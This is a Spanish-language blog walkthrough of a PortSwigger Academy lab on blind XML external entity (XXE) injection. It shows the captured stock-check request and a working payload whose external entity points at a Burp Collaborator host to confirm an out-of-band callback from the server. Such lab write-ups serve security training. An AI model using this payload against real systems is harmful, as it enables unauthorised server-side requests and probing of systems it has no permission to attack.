



+++
author = "Alux"
title = "Portswigger Academy Learning Path: XML external entity (XXE) Lab 3"
date = "2022-01-23"
description = "Lab: Blind XXE with out-of-band interaction"
tags = [
    "xxe",
    "blind xxe",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Blind XXE with out-of-band interaction

La vulnerabilidad o el ataque de XXE es poder realizar una inyeccion XML en la aplicacion que analiza la entrada que le pasa el usuario o el sistema. Lo que hace que un analizados XML no este configuracion o este configurado debilmente para que procese peticiones que un usuario mal intencionado pueda inyectar. Pudiendo llegar a ejecucion de comandos, lectura de archivos y otros.


## Reconocimiento

En este <cite>laboratorio[^1]</cite>la finalidad es poder realizar una inyeccion XXE pero en este caso de tipo blind valiendose de la configuracion debil del analizador.

Primero notamos la opcion de `Check stock` de la web en la que recuperamos la existencia de los productos.


Al ir a la opcion de `Check stock` en burp vemos la peticion que se hace al servidor usando lenguaje XML para realizar la peticion.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```



## Explotacion

Sabiendo la peticion que se hace lo primero que haremos sera explotar XXE pero del tipo blind esto a traves de declarar la DTD para luego referenciar la entidad a nuestro archivo que queremos leer que no existe pero el sistema automaticamente resolvera por medio de DNS y ahi es donde burpcollaborator entra en juego. Que es con la siguiente sintaxis. Luego se referencia en cualquiera del valor que se imprimira o recibira de la web que sera `productId` referenciando con `&xxe;`. Si no realizamos este proceso no podremos recuperar los datos. Asi que sabremos que se ejecuto cuando el sistema realice la peticion de DNS e intente conectarse. El codigo a inyectar XML sera:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://egyr8hd0zz07en40wc6bd8s46vcl0a.burpcollaborator.net/test"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```
Realizamos la peticion y luego veremos la respuesta en burp collaborator




Y con esto hemos resuelto el lab.


[^1]: [Laboratorio](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)